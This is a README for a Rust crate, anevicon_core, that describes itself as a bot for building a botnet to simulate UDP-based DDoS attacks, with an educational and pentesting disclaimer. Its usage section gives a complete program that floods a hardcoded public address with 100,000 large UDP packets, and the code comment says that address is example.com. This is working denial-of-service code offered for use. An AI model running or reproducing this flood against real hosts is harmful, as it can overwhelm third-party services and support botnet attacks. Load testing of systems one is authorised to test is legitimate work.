 <div align="center">
  <h1>anevicon_core</h2>
  
  <a href="https://gitter.im/Gymmasssorla/anevicon">
    <img src="https://img.shields.io/badge/chat-on%20gitter-pink.svg">
  </a>
  <a href="https://travis-ci.com/Gymmasssorla/anevicon">
    <img src="https://travis-ci.com/Gymmasssorla/anevicon.svg?branch=master">
  </a>
  <a href="https://github.com/Gymmasssorla/anevicon/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/license-GPLv3-blue.svg">
  </a>
  <a href="https://crates.io/crates/anevicon_core">
    <img src="https://img.shields.io/badge/crates.io-v0.1.0-orange.svg">
  </a>
  <a href="https://docs.rs/anevicon_core">
    <img src="https://img.shields.io/badge/docs.rs-link-blue.svg">
  </a>
  <a href="https://semver.org">
    <img src="https://img.shields.io/badge/semver-follows-green.svg">
  </a>
  
  This crate can be used as a bot to build a botnet for simulating [UDP-based DDoS attacks](https://en.wikipedia.org/wiki/UDP_flood_attack) (but only for educational and pentesting purposes, see [the GPLv3 license](https://github.com/Gymmasssorla/anevicon/blob/master/LICENSE), under which the library is distributed).
</div>

## Usage

Enter this text to your `Cargo.toml` file:
```toml
[dependencies]
anevicon_core = "*"
```

And this one to your `src/main.rs` source:
```rust
use std::net::UdpSocket;
use std::num::NonZeroUsize;

use anevicon_core::summary::TestSummary;
use anevicon_core::testing::{execute, HandleErrorResult};

fn main() {
    // Setup the socket connected to the example.com domain
    let socket = UdpSocket::bind("0.0.0.0:0").expect("Cannot setup the socket");
    socket
        .connect("93.184.216.34:80")
        .expect("Cannot connect the socket to example.com");

    let mut summary = TestSummary::default();

    // Finally, execute a test that will send 100000 packets
    // each containing 32768 bytes.
    execute(
        &socket,
        &vec![0; 32768],
        NonZeroUsize::new(100000).unwrap(),
        &mut summary,
        |error| panic!("{}", error),
    );

    println!(
        "The total minutes passed: {}",
        summary.time_passed().as_secs() / 60
    );
}
```
